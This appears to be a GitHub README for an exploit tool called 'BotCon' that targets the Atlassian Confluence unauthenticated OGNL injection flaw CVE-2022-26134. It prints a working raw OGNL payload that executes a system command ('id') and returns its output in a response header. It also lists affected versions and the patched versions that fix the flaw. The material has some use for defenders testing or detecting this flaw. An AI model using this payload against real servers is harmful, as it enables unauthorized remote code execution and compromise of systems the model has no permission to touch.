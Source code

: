 # BotCon
Attlasian Confluence Un-Authenticated Remote Code Execution via OGNL Injection (CVE-2022-26134)

- On June 02, 2022 Atlassian released a security advisory for their Confluence Server and Data Center applications, highlighting a critical severity unauthenticated remote code execution vulnerability. The OGNL injection vulnerability allows an unauthenticated user to execute arbitrary code on a Confluence Server or Data Center instance.

## READ THIS !
Use with caution. You are responsible for your actions
Developers assume no liability and are not responsible for any misuse or damage.

![]()![BurpRequest](https://github.com/KeepWannabe/BotCon/blob/main/Screenshot%202022-06-11%20021342.png)

## RAW Payload

```${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}```

## Bug Details

- Affected Product : 
  - Confluence
    - Confluence Server
    - Confluence Data Center

- Affected Versions :
  - All supported versions of Confluence Server and Data Center are affected.
  - Confluence Server and Data Center versions after **1.3.0** are affected.

## Mitigations

- Update your Attlasian Confluence Version to these fixed version :
  - 7.4.17
  - 7.13.7
  - 7.14.3
  - 7.15.2
  - 7.16.4
  - 7.17.4
  - 7.18.1
